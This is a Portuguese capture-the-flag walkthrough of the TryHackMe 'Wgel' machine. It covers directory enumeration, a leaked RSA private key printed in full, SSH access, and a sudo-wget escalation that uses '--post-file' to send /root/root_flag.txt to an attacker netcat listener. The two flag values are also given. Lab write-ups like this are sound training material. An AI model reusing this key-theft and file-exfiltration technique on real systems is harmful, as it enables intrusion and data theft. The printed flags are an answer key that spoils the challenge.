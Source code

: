 Wgel CTF

Ao iniciar a maquina dei comando nmap para saber as portas daquele IP

    nmap -A IP

apos ver um apache instalado dei um gobuster para ver os diretorios, usei a wordlist commom.txt

    gobuster dr -u IP -w /usr/share/dirb/wordlist/commom.txt

ao encontrar os diretorio /sitemap dei um gobuster novamente mas agora filtrando o /sitemap

    gobuster dr -u IP/sitemap -w /usr/share/dirb/wordlist/commom.txt

assim encontrando a pagina principal do desafio ao procurar na pagina pelo css, js, etc.. encontrava-se 2 informacoes importantes. No codigo fonte do apache tinha mencao a um possivel usuario(jessie) e no /sitemap/index.html tambem tinha mencao a jessie assim dando a entender que seria o usuario jessie

ao vasculhar pelos diretorios do /site map tinha um /.ssh ao abrir tinha uma chave privada RSA 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
    W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
    y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
    +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
    Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
    /1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
    AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
    M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
    SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
    2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
    p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
    7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
    dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
    GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
    shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
    uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
    LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
    QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
    V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
    hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
    9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
    eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
    QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
    jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
    -----END RSA PRIVATE KEY-----

assim era so invadir, fazendo conexao ssh com o usuario jessie.. entretanto tinhamos que baixar o arquivo 

    wget IP/sitemap/.ssh/id_rsa

ao baixar e tentar invadir o RSA nao estava com suas permissoes padroes assim tendo que atualizar suas permissoes

    chmod 600 id_rsa

agora sim se tornando possivel invadir o sistema

    sudo ssh -i id_rsa jessi@IP

entrando no usuario jessi era so procurar pela 1 flag que se encotrava na pasta Documents

    cd Documents
    cat user_flag.txt

assim acessando a 1 flag, para encontrar a segundo o tryhackme ja informou que precisava do usuario 'root' ao dar o comando 

    sudo -l 

vimos que o usuario jessie tinha permissao para executar o /usr/bin/wget como root, assim era so procurar uma forma de acessar para poder procurar a ultima flag no site GTFObins ao procurar wget tinha uma falha para fazer um NETCAT para nossa maquina assim...

tinhamos que saber qual era o arquivo a ser lido, porem nao era possivel vizualizar a pasta root e apos tentar alguns nomes como root/root.txt, deduz-se que poderia ser root/root_user.txt visto que a 1 flag tinha um nome parecido.. apos abrir a porta na sua maquina

    nc -nlvp 1333

era so executar o comando..

    sudo wget --post-file=/root/root_flag.txt IPtryhackme:1333

assim encontrando as 2 flags e finalizando o desafio.

FLAGS

    Flag 1: 057c67131c3d5e42dd5cd3075b198ff6
    Flag 2: b1b968b37519ad1daa6408188649263d